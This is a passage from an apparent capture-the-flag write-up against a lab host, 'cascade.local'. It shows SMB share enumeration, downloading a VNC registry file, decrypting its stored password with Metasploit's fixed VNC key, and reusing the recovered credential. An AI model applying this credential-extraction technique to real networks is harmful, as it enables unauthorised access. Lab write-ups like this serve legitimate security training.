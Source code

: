As `r.thompson`, we are only able to read from `Data`, `NETLOGON`, `print$` and `SYSVOL`. Time to start digging around!



{% highlight bash %}
$ smbclient //cascade.local/Data -U r.thompson
Enter WORKGROUP\r.thompson's password: 
Try "help" to get a list of possible commands.
...
smb: \IT\Temp\s.smith\> dir
  .                                   D        0  Tue Jan 28 15:00:01 2020
  ..                                  D        0  Tue Jan 28 15:00:01 2020
  VNC Install.reg                     A     2680  Tue Jan 28 14:27:44 2020

                13106687 blocks of size 4096. 7792770 blocks available
smb: \IT\Temp\s.smith\> get "VNC Install.reg"
getting file \IT\Temp\s.smith\VNC Install.reg of size 2680 as VNC Install.reg (4.1 KiloBytes/sec) (average 4.1 KiloBytes/sec)               
{% endhighlight %}

In `\IT\Temp\s.smith\` was a file called `VNC Install.reg`. After downloading and reading it, we see something interesting.

{% highlight bash %}
$ cat "VNC Install.reg"
...
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
{% endhighlight %}

This password can be decoded by using `msfconsole`.

{% highlight bash %}
$ msfconsole
msf5 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object
>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
=> "\u0017Rk\u0006#NX\a"
>> require 'rex/proto/rfb'
=> true
>> Rex::Proto::RFB::Cipher.decrypt ["6BCF2A4B6E5ACA0F"].pack('H*'), fixedkey
=> "sT333ve2"
{% endhighlight %}

Since the file was found in a directory belonging `s.smith`, we assume that this is his password. Lets test it out. 

{% highlight bash %}
$ smbmap -H cascade.local -d cascade.local -u s.smith -p sT333ve2
[+] Finding open SMB ports....
[+] User SMB session established on cascade.local...
[+] IP: cascade.local:445       Name: unknown                                           
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        .                                                  
        dr--r--r--                0 Wed Jan 29 13:01:26 2020    .
        dr--r--r--                0 Wed Jan 29 13:01:26 2020    ..
        fr--r--r--            13312 Tue Jan 28 16:47:08 2020    CascAudit.exe
        fr--r--r--            12288 Wed Jan 29 13:01:26 2020    CascCrypto.dll
        dr--r--r--                0 Tue Jan 28 16:43:18 2020    DB
        fr--r--r--               45 Tue Jan 28 18:29:47 2020    RunAudit.bat
        fr--r--r--           363520 Tue Jan 28 15:42:18 2020    System.Data.SQLite.dll
        fr--r--r--           186880 Tue Jan 28 15:42:18 2020    System.Data.SQLite.EF6.dll
        dr--r--r--                0 Tue Jan 28 15:42:18 2020    x64
        dr--r--r--                0 Tue Jan 28 15:42:18 2020    x86
        Audit$                                                  READ ONLY